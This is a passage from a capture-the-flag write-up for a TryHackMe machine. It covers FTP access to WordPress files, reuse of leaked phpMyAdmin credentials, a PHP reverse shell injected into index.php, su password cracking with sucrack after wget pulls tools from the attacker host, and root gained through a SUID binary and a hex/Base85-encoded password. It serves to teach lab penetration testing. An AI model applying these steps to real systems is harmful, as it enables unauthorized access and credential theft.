local: wp-config.php remote: wp-config.php
229 Entering Extended Passive Mode (|||9447|)
150 Opening BINARY mode data connection for wp-config.php (3194 bytes).
100% |*************************************************|  3194       14.72 KiB/s    00:00 ETA
226 Transfer complete.
3194 bytes received in 00:00 (7.86 KiB/s)
ftp> exit
221 Goodbye.
```

Let's read the contents of `wp-config.php`:

```php
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ cat wp-config.php                              
<?php
/**
 * The base configuration for WordPress
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'phpmyadmin1' );

/** MySQL database username */
define( 'DB_USER', 'phpmyadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', '12345' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
...
$table_prefix = 'wp_';
define( 'WP_DEBUG', false );
```

We found MySQL / phpMyAdmin credentials:
- **Username:** `phpmyadmin`
- **Password:** `12345`

Heading back to `http://adana.thm/phpmyadmin`, we log in successfully:



Inside the `phpmyadmin1` database, I checked the `wp_options` table. In the `siteurl` and `home` records, there was a different subdomain configured:



- **Subdomain:** `subdomain.adana.thm`

I added this to `/etc/hosts` right away:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ echo "10.128.162.225 subdomain.adana.thm" | sudo tee -a /etc/hosts
 
10.128.162.225 subdomain.adana.thm
```

Navigating to `http://subdomain.adana.thm/`:



It served another WordPress site.

---

## 5. Initial Foothold (Reverse Shell via FTP Overwrite)

Looking back at our FTP session, our FTP user `hakanftp` (UID 1001) had full write permissions over the files in this directory. In fact, this directory turned out to be the exact root for `subdomain.adana.thm`.

To test code execution, I decided to inject a PentestMonkey PHP reverse shell into the top of `index.php`.

First, I downloaded the original `index.php` from FTP:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ ftp 10.128.162.225
Connected to 10.128.162.225.
220 (vsFTPd 3.0.3)
Name (10.128.162.225:alphax): hakanftp
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32598|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 14  2021 announcements
-rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
-rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
-rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
-rw-------    1 1001     1001          102 Oct 30 07:05 rev.php
-rw-------    1 1001     1001         2588 Oct 30 06:56 shell.php
-rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
drwxr-xr-x    9 1001     1001         4096 Dec 08  2020 wp-admin
-rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
-rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
-rw-r--r--    1 0        0            3194 Jan 11  2021 wp-config.php
drwxr-xr-x    4 1001     1001         4096 Dec 08  2020 wp-content
-rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
drwxr-xr-x   25 1001     1001        12288 Dec 08  2020 wp-includes
-rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
-rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
-rw-r--r--    1 1001     1001        49831 Nov 09  2020 wp-login.php
-rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
-rw-r--r--    1 1001     1001        20975 Nov 12  2020 wp-settings.php
-rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
-rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
-rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
226 Directory send OK.
ftp> get index.php
local: index.php remote: index.php
229 Entering Extended Passive Mode (|||34562|)
150 Opening BINARY mode data connection for index.php (405 bytes).
100% |*************************************************|   405        5.29 MiB/s    00:00 ETA
226 Transfer complete.
405 bytes received in 00:00 (2.22 KiB/s)
ftp>
```

I injected my reverse shell payload into `index.php` and uploaded it back to the server:

```text
ftp> binary
200 Switching to Binary mode.
ftp> put index.php
local: index.php remote: index.php
229 Entering Extended Passive Mode (|||48689|)
150 Ok to send data.
100% |*************************************************|  2994       24.19 MiB/s    00:00 ETA
226 Transfer complete.
2994 bytes sent in 00:00 (8.13 KiB/s)
ftp> 
```

I launched `penelope` to listen for incoming connections:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ penelope
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 192.168.31.83 • 192.168.130.95
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Triggering the shell was as simple as visiting `http://subdomain.adana.thm/`. Immediately, the listener caught the connection and upgraded the session to a clean interactive PTY:

```text
[+] [New Reverse Shell] => ubuntu 10.128.162.225 Linux-x86_64 👤 www-data(33) 😍️ Session ID <1>
[+] Upgrading shell to PTY...
[+] PTY upgrade successful via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/alphax/.penelope/sessions/ubuntu~10.128.162.225-Linux-x86_64/2026_10_30-12_50_26-712.log
──────────────────────────────────────────────────────────────────────────────────────────────
www-data@ubuntu:/$ whoami
www-data
www-data@ubuntu:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Enumeration & Hidden First Flag

With access as `www-data`, I began looking around the filesystem:

```bash
www-data@ubuntu:/$ ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old

www-data@ubuntu:/$ cd /home/
www-data@ubuntu:/home$ ls
hakanbey

www-data@ubuntu:/home$ cd hakanbey/
bash: cd: hakanbey/: Permission denied

www-data@ubuntu:/home$ cd /var/www/
www-data@ubuntu:/var/www$ ls
html  subdomain
```

Looking inside `/var/www/subdomain/`:

```bash
www-data@ubuntu:/var/www$ ls -al subdomain/
total 252
drwxrwxrwx  8 hakanftp hakanftp  4096 Oct 30 07:05 .
drwxrwxrwx  4 root     root      4096 Jan 14  2021 ..
-rw-------  1 hakanftp hakanftp    88 Jan 13  2021 .bash_history
drwx------  2 hakanftp hakanftp  4096 Jan 11  2021 .cache
drwx------  3 hakanftp hakanftp  4096 Jan 11  2021 .gnupg
-rw-r--r--  1 hakanftp hakanftp   554 Jan 10  2021 .htaccess
drwxr-xr-x  2 root     root      4096 Jan 14  2021 announcements
-rw-r--r--  1 hakanftp hakanftp  2994 Oct 30 07:19 index.php
-rw-r--r--  1 hakanftp hakanftp 19915 Feb 12  2020 license.txt
-rw-r--r--  1 hakanftp hakanftp  7278 Jun 26  2020 readme.html
-rw-------  1 hakanftp hakanftp   102 Oct 30 07:05 rev.php
-rw-------  1 hakanftp hakanftp  2588 Oct 30 06:56 shell.php
-rw-r--r--  1 hakanftp hakanftp  7101 Jul 28  2020 wp-activate.php
drwxr-xr-x  9 hakanftp hakanftp  4096 Dec  8  2020 wp-admin
-rw-r--r--  1 hakanftp hakanftp   351 Feb  6  2020 wp-blog-header.php
-rw-r--r--  1 hakanftp hakanftp  2328 Oct  8  2020 wp-comments-post.php
-rw-r--r--  1 root     root      3194 Jan 11  2021 wp-config.php
drwxr-xr-x  4 hakanftp hakanftp  4096 Dec  8  2020 wp-content
-rw-r--r--  1 hakanftp hakanftp  3939 Jul 30  2020 wp-cron.php
drwxr-xr-x 25 hakanftp hakanftp 12288 Dec  8  2020 wp-includes
-rw-r--r--  1 hakanftp hakanftp  2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--  1 hakanftp hakanftp  3300 Feb  6  2020 wp-load.php
-rw-r--r--  1 hakanftp hakanftp 49831 Nov  9  2020 wp-login.php
-rw-r--r--  1 hakanftp hakanftp  8509 Apr 14  2020 wp-mail.php
-rw-r--r--  1 hakanftp hakanftp 20975 Nov 12  2020 wp-settings.php
-rw-r--r--  1 hakanftp hakanftp 31337 Sep 30  2020 wp-signup.php
-rw-r--r--  1 hakanftp hakanftp  4747 Oct  8  2020 wp-trackback.php
-rw-r--r--  1 hakanftp hakanftp  3236 Jun  8  2020 xmlrpc.php
```

Then I checked the main web root at `/var/www/html/`:

```bash
www-data@ubuntu:/var/www$ cd html/
www-data@ubuntu:/var/www/html$ ls -al
total 236
drwxrwxrwx  6 root     root      4096 Oct 30 05:20 .
drwxrwxrwx  4 root     root      4096 Jan 14  2021 ..
-rw-r--r--  1 www-data www-data   523 Jan 10  2021 .htaccess
drwxr-xr-x  2 root     root      4096 Jan 11  2021 announcements
-rw-r--r--  1 root     root       405 Feb  6  2020 index.php
-rw-r--r--  1 root     root     19915 Feb 12  2020 license.txt
-rw-r--r--  1 root     root      7278 Jun 26  2020 readme.html
-rw-r--r--  1 root     root      7101 Jul 28  2020 wp-activate.php
drwxr-xr-x  9 root     root      4096 Dec  8  2020 wp-admin
-rw-r--r--  1 root     root       351 Feb  6  2020 wp-blog-header.php
-rw-r--r--  1 root     root      2328 Oct  8  2020 wp-comments-post.php
-rw-rw-rw-  1 www-data www-data  3193 Jan 10  2021 wp-config.php
drwxr-xr-x  4 root     root      4096 Dec  8  2020 wp-content
-rw-r--r--  1 root     root      3939 Jul 30  2020 wp-cron.php
drwxr-xr-x 25 root     root     12288 Dec  8  2020 wp-includes
-rw-r--r--  1 root     root      2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--  1 root     root      3300 Feb  6  2020 wp-load.php
-rw-r--r--  1 root     root     49831 Nov  9  2020 wp-login.php
-rw-r--r--  1 root     root      8509 Apr 14  2020 wp-mail.php
-rw-r--r--  1 root     root     20975 Nov 12  2020 wp-settings.php
-rw-r--r--  1 root     root     31337 Sep 30  2020 wp-signup.php
-rw-r--r--  1 root     root      4747 Oct  8  2020 wp-trackback.php
-rwxrwxrwx  1 hakanbey hakanbey    38 Jan 14  2021 wwe3bbfla4g.txt
-rw-r--r--  1 root     root      3236 Jun  8  2020 xmlrpc.php
```

There is an unusually named text file here: `wwe3bbfla4g.txt`. Reading it gives us the first flag:

```bash
www-data@ubuntu:/var/www/html$ cat wwe3bbfla4g.txt
THM{343a7e2064a1d992c01ee201c346edff}
```

- **First Flag:** `THM{343a7e2064a1d992c01ee201c346edff}`

---

## 6. Lateral Movement to `hakanbey` (sucrack & Wordlist Mutation)

We saw that the system has an active user named `hakanbey`. Since we don't have SSH access, the only direct way to switch to this user is through `su`.

Standard brute-forcing against `su` is tricky in a shell because `su` enforces a valid terminal and has delays. To handle this, we can use `sucrack`—a multithreaded tool specifically written to crack local user accounts via `su` through pseudo-terminals (`pty`).

### The Password Pattern
Recall the passwords we found earlier:
- Steghide passphrase: `123adanaantinwar`
- FTP password: `123adanacrack`

Both begin with `123adana`. It's very likely that `hakanbey` uses a password following the exact same convention: `123adana<word>`.

### Transferring and Compiling sucrack

On my local machine, I cloned `sucrack`, packaged it, and served it along with `wordlist.txt`:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ git clone https://github.com/hemp3l/sucrack.git
Cloning into 'sucrack'...
remote: Enumerating objects: 81, done.
remote: Total 81 (delta 0), reused 0 (delta 0), pack-reused 81 (from 1)
Receiving objects: 100% (81/81), 162.65 KiB | 20.00 KiB/s, done.
Resolving deltas: 100% (33/33), done.

┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ tar -czvf source-sucrack.tar.gz ./sucrack
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

From our reverse shell on the target, I pulled down both archives into `/tmp`:

```bash
www-data@ubuntu:/tmp$ wget http://192.168.130.95:8080/source-sucrack.tar.gz
--2026-10-30 08:07:26--  http://192.168.130.95:8080/source-sucrack.tar.gz
Connecting to 192.168.130.95:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 322593 (315K) [application/gzip]
Saving to: 'source-sucrack.tar.gz'

source-sucrack.tar.gz   100%[=============================>] 315.03K   295KB/s    in 1.1s    

2026-10-30 08:07:27 (295 KB/s) - 'source-sucrack.tar.gz' saved [322593/322593]

www-data@ubuntu:/tmp$ wget http://192.168.130.95:8080/wordlist.txt
--2026-10-30 08:07:37--  http://192.168.130.95:8080/wordlist.txt
Connecting to 192.168.130.95:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 403891 (394K) [text/plain]
Saving to: 'wordlist.txt'

wordlist.txt            100%[=============================>] 394.42K   369KB/s    in 1.1s    

2026-10-30 08:07:38 (369 KB/s) - 'wordlist.txt' saved [403891/403891]
```

Next, I extracted the source and compiled `sucrack` directly on the victim machine:

```bash
www-data@ubuntu:/tmp$ ls -al
total 720
drwxrwxrwt  2 root     root       4096 Oct 30 08:07 .
drwxr-xr-x 24 root     root       4096 Jan 10  2021 ..
-rw-rw-rw-  1 www-data www-data 322593 Oct 30 08:04 source-sucrack.tar.gz
-rw-rw-rw-  1 www-data www-data 403891 Jan 11  2021 wordlist.txt

www-data@ubuntu:/tmp$ chmod 777 source-sucrack.tar.gz 
www-data@ubuntu:/tmp$ chmod 777 wordlist.txt         
www-data@ubuntu:/tmp$ tar xfz source-sucrack.tar.gz 

www-data@ubuntu:/tmp$ ls -al
total 724
drwxrwxrwt  3 root     root       4096 Oct 30 08:08 .
drwxr-xr-x 24 root     root       4096 Jan 10  2021 ..
-rwxrwxrwx  1 www-data www-data 322593 Oct 30 08:04 source-sucrack.tar.gz
drwxrwxr-x  5 www-data www-data   4096 Oct 30 08:03 sucrack
-rwxrwxrwx  1 www-data www-data 403891 Jan 11  2021 wordlist.txt

www-data@ubuntu:/tmp$ cd sucrack/
www-data@ubuntu:/tmp/sucrack$ ./configure
www-data@ubuntu:/tmp/sucrack$ make
```

### Mutating the Wordlist

Before running the attack, I used `sed` to generate a mutated wordlist where every entry starts with `123adana`:

```bash
www-data@ubuntu:/tmp/sucrack$ cd ..
www-data@ubuntu:/tmp$ sed 's/^/123adana/' wordlist.txt > wordlist2.txt

www-data@ubuntu:/tmp$ ls -al
total 1512
drwxrwxrwt  3 root     root       4096 Oct 30 08:22 .
drwxr-xr-x 24 root     root       4096 Jan 10  2021 ..
-rwxrwxrwx  1 www-data www-data 322593 Oct 30 08:04 source-sucrack.tar.gz
drwxrwxr-x  5 www-data www-data   4096 Oct 30 08:22 sucrack
-rwxrwxrwx  1 www-data www-data 403891 Jan 11  2021 wordlist.txt
-rw-rw-rw-  1 www-data www-data 803891 Oct 30 08:22 wordlist2.txt

www-data@ubuntu:/tmp$ mv wordlist2.txt sucrack/src/
www-data@ubuntu:/tmp$ cd sucrack/src/
```

### Running the Attack

Now we execute `sucrack` targeting user `hakanbey` with our mutated `wordlist2.txt`:

```bash
www-data@ubuntu:/tmp/sucrack/src$ ./sucrack -u hakanbey -w 100 wordlist2.txt 
password is: 123adanasubaru
```

Bingo! We got the password:
- **User:** `hakanbey`
- **Password:** `123adanasubaru`

We can switch to `hakanbey` using `su` and grab the user flag:

```bash
www-data@ubuntu:/tmp$ su hakanbey
Password: 

hakanbey@ubuntu:/tmp$ whoami
hakanbey

hakanbey@ubuntu:/tmp$ id
uid=1000(hakanbey) gid=1000(hakanbey) groups=1000(hakanbey),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)

hakanbey@ubuntu:/tmp$ cd /home/hakanbey/
hakanbey@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos  website

hakanbey@ubuntu:~$ cat user.txt 
THM{8ba9d7715fe726332b7fc9bd00e67127}
```

- **User Flag:** `THM{8ba9d7715fe726332b7fc9bd00e67127}`

---

## 7. Privilege Escalation to `root` (SUID Reversing & CyberChef)

With user access secured, I checked for SUID binaries to look for privilege escalation vectors:

```bash
hakanbey@ubuntu:~$ find / -perm -4000 -type f 2>/dev/null
/bin/fusermount
/bin/su
/bin/umount
/bin/mount
/bin/ping
/usr/local/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/arping
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/binary
/usr/bin/at
/usr/bin/newgrp
/usr/sbin/pppd
/usr/sbin/exim4
```

Notice `/usr/bin/binary`. This is completely non-standard.

### Analyzing `/usr/bin/binary` with ltrace

I executed `/usr/bin/binary` under `ltrace` to intercept library calls and see what it was doing under the hood:

```bash
hakanbey@ubuntu:~$ ltrace /usr/bin/binary
strcat("war", "zone")                                    = "warzone"
strcat("warzone", "in")                                  = "warzonein"
strcat("warzonein", "ada")                               = "warzoneinada"
strcat("warzoneinada", "na")                             = "warzoneinadana"
printf("I think you should enter the cor"...)            = 52
__isoc99_scanf(0x55928d6daedd, 0x7ffe9ec78920, 0, 0I think you should enter the correct string here ==>warzoneinadana
)     = 1
strcmp("warzoneinadana", "warzoneinadana")               = 0
fopen("/root/hint.txt", "r")                             = 0
__isoc99_fscanf(0, 0x55928d6daedd, 0x7ffe9ec78940, 1 <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

In the trace, the binary runs multiple `strcat()` calls building up the target string:
- `"war"` + `"zone"` + `"in"` + `"ada"` + `"na"` = `"warzoneinadana"`

Then it asks for user input via `scanf` and compares it using `strcmp()`.

Let's run `/usr/bin/binary` directly and provide `"warzoneinadana"`:

```bash
hakanbey@ubuntu:~$ /usr/bin/binary
I think you should enter the correct string here ==>warzoneinadana
Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/Desktop/root.jpg (CyberChef)

Copy /root/root.jpg ==> /home/hakanbey/root.jpg
```

The binary displays an interesting hint:
`Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/Desktop/root.jpg (CyberChef)`

And it copied `/root/root.jpg` to our home directory (`/home/hakanbey/root.jpg`).

### Inspecting `root.jpg` & CyberChef Decoding

I started a quick Python web server from `hakanbey`'s home directory to pull `root.jpg` to my local attack machine:

```bash
hakanbey@ubuntu:~$ ls
Desktop    Downloads  Pictures  root.jpg   user.txt  website
Documents  Music      Public    Templates  Videos

hakanbey@ubuntu:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Downloading the image on my machine:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ wget http://10.130.129.191:8000/root.jpg  
--2026-10-30 14:34:20--  http://10.130.129.191:8000/root.jpg
Connecting to 10.130.129.191:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45835 (45K) [image/jpeg]
Saving to: ‘root.jpg’

root.jpg                100%[=============================>]  44.76K  84.9KB/s    in 0.5s    

2026-10-30 14:34:21 (84.9 KB/s) - ‘root.jpg’ saved [45835/45835]
```

Next, I used `xxd` to check the hex values around offset `00000020` as indicated by the hint:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ xxd -l 50 root.jpg
00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 0060  ......JFIF.....`
00000010: 0060 0000 ffe1 0078 4578 6966 0000 4d4d  .`.....xExif..MM
00000020: fee9 9d3d 7918 5ffc 826d df1c 69ac c275  ...=y._..m..i..u
00000030: 0000                                     ..
```

The bytes at offset `00000020` are:
```
fee9 9d3d 7918 5ffc 826d df1c 69ac c275
```

I opened up [CyberChef](https://gchq.github.io/CyberChef/) and pasted this hex string into the input. The hint suggested finding the missing encoding step to read it (`???? ==> root.jpg`). Testing standard representations:
1. **From Hex** (Auto delimiter)
2. **To Base85**



CyberChef converts it to:
```
root:Go0odJo0BbBro0o
```

#### We got the root password

- *User:* `root`
- *Pass:* `Go0odJo0BbBro0o`


### Escalating to Root

Let's test this password with `su root`:

```bash
hakanbey@ubuntu:~$ su root
Password: 

root@ubuntu:/home/hakanbey# whoami
root

root@ubuntu:/home/hakanbey# id
uid=0(root) gid=0(root) groups=0(root)

root@ubuntu:/home/hakanbey# pwd
/home/hakanbey

root@ubuntu:/home/hakanbey# cd /root/

root@ubuntu:~# ls
hint.txt  root.jpg  root.txt

root@ubuntu:~# cat root.txt 
THM{c5a9d3e4147a13cbd1ca24b014466a6c}
```

We have full root access and the final flag!

---

## 8. Flag Summary

| Flag Type | Location | Flag Hash |
| :--- | :--- | :--- |
| **Web Flag** | `/var/www/html/wwe3bbfla4g.txt` | `THM{343a7e2064a1d992c01ee201c346edff}` |
| **User Flag** | `/home/hakanbey/user.txt` | `THM{8ba9d7715fe726332b7fc9bd00e67127}` |
| **Root Flag** | `/root/root.txt` | `THM{c5a9d3e4147a13cbd1ca24b014466a6c}` |
